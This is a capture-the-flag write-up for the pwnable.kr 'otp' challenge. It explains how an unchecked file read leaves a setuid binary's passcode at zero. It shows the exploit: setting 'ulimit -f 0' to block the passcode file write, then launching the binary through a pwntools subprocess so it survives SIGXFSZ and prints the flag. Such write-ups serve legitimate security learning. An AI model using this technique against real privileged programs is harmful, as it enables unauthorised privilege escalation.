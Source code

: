 ## Description
otp - 100 pt [writeup]

> I made a skeleton interface for one time password authentication system.
> I guess there are no mistakes.
> could you take a look at it?
>
> hint : not a race condition. do not bruteforce.
>
> ssh otp@pwnable.kr -p2222 (pw:guest)

## Solution
Let's run some basic checks that hopefully will be helpful later.
```shell
$ file otp
otp: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=f851771b439725c55be4ed4b0e102c2a39f4c196, not stripped

$ checksec otp
[*] './otp'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Something interesting I noticed in the code:
```c
    unsigned long long passcode=0;
    ...
	if(strtoul(argv[1], 0, 16) == passcode){
		printf("Congratz!\n");
		system("/bin/cat flag");
	}
    ...
```
passcode is of type unsigned long long, when the return value of `strtoul()` is of type unsigned long.
But after checking on the server, both of size 8. So it probably doesn't matter here.

Notice one thing, the program doesn't check wheter `passcode` was read from the file succefully or not.
Also, it is set first to be zero.
So if we can prevent the binary from writing to files before its execution, `passcode` will stay zero!

Lets look at the `ulimit` command:
```shell
# from https://ss64.com/bash/ulimit.html
ulimit
User limits - limit the use of system-wide resources.

Syntax
      ulimit [-HS] -a
      ulimit [-HS] [-bcdefiklmnpqrstuvxPRT] [limit]
Key
   -S   Set a soft limit for the given resource.
   -H   Set a hard limit for the given resource.

   -a   All current limits are reported.
   -b   The maximum socket buffer size.
   -c   The maximum size of core files created. 
   -d   The maximum size of a process's data segment.
   -e   The maximum scheduling priority ("nice") 
   -f   The maximum size of files created by the shell(default option).
   ...
```

Notice the `-f` option. If we limit the maximum size of files created by the shell to be 0, then the program won't be able to write to the otp file.
Which will make `passcode` stay 0. 

So let's try it, connect via ssh and run the following:
```shell
$ ulimit -f 0
$ $ ./otp ''
File size limit exceeded (core dumped)
```
So.. it didn't work. Why? Let's run it again with GDB:
```shell
$ gdb otp
...
(gdb) r ''
Starting program: /home/otp/otp ''

Program received signal SIGXFSZ, File size limit exceeded.
0x00007f001d3a83c0 in __write_nocancel () at ../sysdeps/unix/syscall-template.S:84
84      ../sysdeps/unix/syscall-template.S: No such file or directory.
```
So as we expected, the program tried to write to the file, but failed because of the file size limit.
But it also threw SIGXFSZ which stopped the execution of the program.\
So how can we prevent this from happening?\
After some trial and error, I found out that if we run `otp` as a subprocess, it ignores the SIGXFSZ signal.

```shell
$ ulimit -f 0
$ python2
Python 2.7.12 (default, Mar  1 2021, 11:38:31) 
>>> from pwn import *
>>> with process(["/bin/bash", "-c", "/home/otp/otp ''"]) as p:
...     print p.recvline()
...     print p.recvline()
...     print p.recvline()
```
and we get the flag!

## Setup
```shell
ssh otp@pwnable.kr -p2222 (pw:guest)
```
